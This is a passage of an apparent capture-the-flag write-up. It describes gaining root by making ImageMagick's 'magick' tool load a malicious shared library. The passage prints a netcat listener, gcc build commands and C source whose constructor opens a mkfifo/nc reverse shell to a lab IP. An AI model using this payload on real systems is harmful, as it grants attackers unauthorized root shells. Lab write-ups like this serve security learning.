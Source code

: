 <figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

***

* With this, I created a new file, changing the payload to one that could help me gain a Reverse Shell. I set a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener to receive the connection and established the payload, indicating the IP of my machine and the port where I was listening. Then I did the compiling process and ran the _magick_ tool again, successfully gaining a shell as the _root_ user

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On my machine
nc -nvlp 4444

#On the target machine
nano shell.c
gcc shell.c -fPIC -shared -o libxcb.so.1 -nostartfiles
magick identify entertainment.jpg
```
{% endcode %}

{% code title="shell.c" overflow="wrap" lineNumbers="true" %}
```c
include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("sudo rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f");
    exit(0);
}
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

